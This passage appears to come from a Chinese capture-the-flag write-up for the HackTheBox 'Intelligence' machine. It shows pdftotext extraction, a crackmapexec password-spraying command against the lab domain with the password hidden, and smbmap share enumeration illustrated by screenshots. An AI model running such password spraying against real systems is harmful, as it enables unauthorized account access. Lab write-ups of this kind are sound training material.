 ## 获取密码

### 数据提取

```bash
for file in *.pdf; do pdftotext -layout "$file"; done
```

## 密码喷洒

使用 crackmapexec 来进行密码喷射

```bash
crackmapexec smb intelligence.htb -u ./users.txt -p '<HIDDEN>'
```

## SMB 共享

使用 smbmap 来枚举 SMB 共享。

[![](assets/1701071906-5d1fedcc1a757501b94f6db7ae7cf03a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231125212952-b72be962-8b96-1.png)

发现存在大量共享目录

[![](assets/1701071906-32847d466d133bd39a105b5e6e6d4d88.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231125213004-be033100-8b96-1.png)

我们拥有对“用户”和“IT”的读取权限。我们可以让 smbmap 列出我们有权访问的所有内容

[![](assets/1701071906-55dac9bcaf2244225017cec0097c5c83.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231125213016-c55acc56-8b96-1.png)
